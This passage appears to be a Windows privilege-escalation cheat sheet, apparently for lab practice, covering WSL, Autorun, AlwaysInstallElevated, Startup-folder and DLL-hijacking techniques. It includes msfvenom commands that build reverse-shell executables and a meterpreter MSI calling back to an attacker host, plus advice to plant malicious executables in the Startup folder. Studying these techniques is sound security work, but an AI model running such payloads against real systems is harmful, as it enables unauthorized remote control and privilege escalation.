 ```
wsl whoami
wsl python -c 'BIND_OR_REVERSE_SHELL_PYTHON_CODE'
```

**Autorun**

Using a tool from SysInternals we can see which applications are using Autorun

**NOTE:** This needs an RDP connection

```
C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

If any applications have Autorun enabled, we can use another tool from SysInternals to check the access level for the application.

```
C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

We can create a reverse shell with the name `program.exe` to potentially exploit the other system.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.4.54.185 LPORT=9001 -f exe -o program.exe
```

**AlwaysInstallElevated**

Use these commands to see if the "AlwaysInstallElevated" value is set to 1.

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\Software\Policies\Microsoft\Windows Installer\AlwaysInstallElevated
```

If it is then we can create `.msi` reverse shell to escalated privileges.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f msi -o setup.msi
```

**Startup Applications**

Using the command `icacls` we can see if we have access to modify the startup applications. If we see an `F` it means we have full access to the directory.

```
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

Create a malicious executable and place it in the Startup folder. Log in as the Administrator to simulate someone else logging in to execute the malicious executable.

**DLL Hijacking**

Windows programs use DLLs to run correctly and will search for them on launch. If these DLLs do not exist then it is possible to escalate privileges by placing a malicious DLL where the application is looking. 

`PowerUp` is useful to find potential DLLs to hijack.
